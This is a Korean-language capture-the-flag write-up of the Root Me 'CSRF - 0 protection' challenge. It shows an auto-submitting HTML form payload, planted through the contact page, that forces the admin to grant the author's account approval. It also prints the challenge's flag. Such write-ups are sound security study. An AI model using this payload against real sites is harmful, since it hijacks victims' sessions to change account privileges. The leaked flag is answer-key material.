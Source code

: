 <!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1> Root Me "CSRF - 0 protection"  Write-UP</h1>
</body>
<br>
<br>
</html>

2024.09.22 풀이

![image](https://github.com/user-attachments/assets/ff72fece-fcd7-4292-8d57-d71e52fc5325)

![image](https://github.com/user-attachments/assets/f5408461-31be-4b4b-9586-1124c89d6f7c)

우선 서버에 들어가보았다. 로그인하는 창과 회원가입하는 창이 보였다. 

<br>

</br>

![image](https://github.com/user-attachments/assets/e3147dd8-9641-4fee-b9d2-f73a7d5e1fb3)

![image](https://github.com/user-attachments/assets/749eb9e5-5da9-4bb6-8c0d-227820c2fdec)

일단 임의로 회원가입을 해보았다. 회원가입이 성공되었고, 로그인하라는 문구가 떴다. 관리자가 모든 권한을 허용하도록 내 상태를 업데이트할 것이라는 내용도 포함되어 있다. 

<br>

</br>

![image](https://github.com/user-attachments/assets/48ed5199-9f21-4950-9840-7c5449a89341)

![image](https://github.com/user-attachments/assets/4181fd6f-d730-4b6b-9f84-b09cd2864bc3)

회원가입을 하니, 프로필로 들어와졌다. 

<br>

</br>

## Profile 페이지

![image](https://github.com/user-attachments/assets/a8f15396-de06-4b46-8438-21fc30405d6c)

저기 Status 옆에 네모 칸을 체크되도록 하고 싶었는데, 눌리지 않았다. 

안 눌린 상태로 누르니, 

나는 관리자가 아니라고 실행되지 않는 것을 확인할 수 있다.

 <br>

</br>

## Private 페이지

![image](https://github.com/user-attachments/assets/496ecc33-bae7-44a9-badc-996a992ea0f8)

여기에는 내 계정이 아직 관리자에게 승인되지 않았다고 뜬다. 

 <br>

</br>

## Contact 페이지

![image](https://github.com/user-attachments/assets/6871beb9-2847-45c4-b54c-977c407370c5)

여기는 내 이메일 주소와 첨부할 내용을 작성해서 제출하는 것 같다. 

 

회원가입하고, 관리자가 내 접근 권한을 업데이트해줄거라고 하였었다. 근데, Status 칸이 눌리지 않기 때문에, 이 부분을 손 보면 플래그를 얻을 수 있을 것 같다고 생각했다. 
 <br>

</br>

![image](https://github.com/user-attachments/assets/b28e7927-4da6-4316-b933-feb18ebf707d)

개발자 도구로 Profile 부분에 username과 status가 들어있는 form 부분을 살펴보았다. 저 부분을 따와서

```
<form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data" id="blu">

<input type="text" name="username" value="blu">

<input type="checkbox" name="status" checked>

</form>

<script>javascript:document.getElementById("blu").submit();</script>
```
 <br>

</br>

맨 처음엔 헤더부분에 url에는 profile 페이지의 full url 을 입력하였고, 내 계정의 Status가 checked 되도록 작성하였다. 그리고, form의 submit을 자동으로 바로 실행되게 해주는 javascript:document.getElementById()를 사용하였다. 

이걸 Contact 페이지에 입력해보니, 

![image](https://github.com/user-attachments/assets/38b8d357-693a-470b-9f2f-2081aa0f09b0)

![image](https://github.com/user-attachments/assets/023c5b1a-d5f5-4a63-b81c-b57bd9e671a6)

내 메시지가 보내졌다는 문구가 뜬다. 

![image](https://github.com/user-attachments/assets/5e43eccd-eedd-4109-b21e-bac2c2a405d7)

그리고 Private 페이지를 확인해보니 플래그 값이 출력되었다!
<br>

</br>

```
Csrf_Fr33style-L3v3l1!
```
<br>

</br>

![image](https://github.com/user-attachments/assets/74ae125d-35d5-4698-bf27-83d335b207be)
